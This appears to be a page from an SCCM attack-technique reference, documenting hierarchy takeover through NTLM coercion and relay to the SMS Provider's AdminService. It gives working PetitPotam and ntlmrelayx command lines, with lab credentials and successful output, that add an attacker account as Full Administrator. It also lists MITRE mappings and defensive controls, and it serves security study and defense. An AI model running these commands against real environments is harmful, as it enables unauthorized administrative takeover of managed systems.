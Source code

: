 # Hierarchy Takeover via NTLM Coercion and Relay from Site Server to AdminService

## Code Name
- TAKEOVER-2

## MITRE ATT&CK TTPs
- [T1078.002](https://attack.mitre.org/techniques/T1078/002/) - Valid Accounts
- [T1187](https://attack.mitre.org/techniques/T1187/) - Forced Authentication

## Requirements
Valid domain credentials with network connectivity to the primary site server and SMS Provider.

## Summary

The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations.  The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (adminservice) REST API and uses Microsoft Negotiate for authentication. In default configurations, the adminservice is vulnerable to NTLM relay attacks. 

## Impact

This technique may allow an attacker to relay a primary site server machine account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables lateral movement to all SCCM clients and/or sensitive systems.

## Defensive IDs
- [PREVENT-8: Require PKI certificates for client authentation](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [DETECT-4: Monitor SMS Admins group membership](../../../defense-techniques/DETECT/DETECT-4/detect-4_description.md)

## Examples
- Use SCCMHunter to profile SCCM component server roles
- Use PetitPotam to coerce authentication from primary site server
- Use NTLMrelayx to relay credentials to remote SMS Provider

### SCCMHunter
```
[02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
[02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                       | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
```

### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 sccm.internal.lab

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

### NTLMRelayx

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]
└─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\secter" --objectsid "S-1-5-21-2391214593-4168590120-2599633397-1133" -smb2support -t https://provider.internal.lab/AdminService/wmi/SMS_Admin
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
[*] Exiting standard auth flow to add SCCM admin...
[*] Authenticating against https://provider.internal.lab as LAB/SCCM$
[*] Skipping user SCCM$ since attack was already performed
[*] Server returned code 201, attack successful

```

## References
- Garrett Foster, Site Takeover via SCCM’s AdminService API, https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf
- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
- Microsoft, What is the administration service in Configuration Manager?, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview